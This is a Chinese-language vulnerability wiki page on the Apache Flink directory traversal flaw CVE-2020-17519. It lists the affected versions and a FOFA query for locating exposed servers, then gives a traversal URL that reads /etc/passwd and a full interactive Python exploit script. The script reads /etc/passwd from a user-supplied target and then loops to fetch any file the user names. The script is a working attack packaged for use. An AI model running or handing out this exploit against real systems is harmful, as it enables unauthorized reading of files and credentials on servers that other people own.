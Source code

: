 # Apache Flink 目录遍历漏洞 CVE-2020-17519

## 漏洞描述

2021年01月06日，360CERT监测发现`Apache Flink`发布了`Apache Flink 目录穿越漏洞,目录穿越漏洞`的风险通告，漏洞编号为`CVE-2020-17518,CVE-2020-17519`，漏洞等级：`高危`，漏洞评分：`8.5`。

远程攻击者通过`REST API`目录遍历，可造成`文件读取/写入`的影响。

## 漏洞影响

> [!NOTE]
>
> Apache Flink 1.11.0
>
> Apache Flink 1.11.1
>
> Apache Flink 1.11.2

## FOFA

> [!NOTE]
>
> app="Apache Flink"

## 环境搭建

```
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519
```

![](http://wikioss.peiqi.tech/vuln/flink-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

```
POC:
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

![](http://wikioss.peiqi.tech/vuln/flink-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Flink   1.11.0-1.11.2                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-17519.py                                  \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mFile        >>> /etc/passwd                                        \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_name):
    file_name = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "root" in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
        else :
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, file_name):
    file_name_re = file_name.replace("/", "%252f")
    vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
        if "error" not in response.text:
            print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
        else :
            print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))

    except Exception as e:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    file_name = "/etc/passwd"
    POC_1(target_url, file_name)

    while True:
        file_name = input("\033[35mFile >>> \033[0m")
        if file_name == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, file_name)
```

![](http://wikioss.peiqi.tech/vuln/flink-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)